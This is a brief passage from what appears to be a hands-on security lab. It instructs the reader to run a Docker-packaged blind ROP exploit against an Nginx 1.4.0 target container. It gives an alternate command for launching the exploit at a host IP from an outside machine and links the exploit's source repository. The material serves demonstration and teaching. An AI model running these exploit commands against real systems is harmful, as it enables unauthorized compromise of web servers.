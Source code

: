 Now that Nginx is installed, let's break into it remotely.

`docker run --rm --link target -it polyverse/exp-nginx-1.4.0-brop -p target`{{execute "T3"}}

If you'd rather run the exploit from some other machine outside of this scenario, and have Docker installed on it, you may run this command instead:

`docker run --rm -- -it polyverse/exp-nginx-1.4.0-brop -p [[HOST_IP]]`{{copy}}

The complete source code for the exploit is provided here: https://github.com/polyverse/exp-nginx-1.4.0-brop
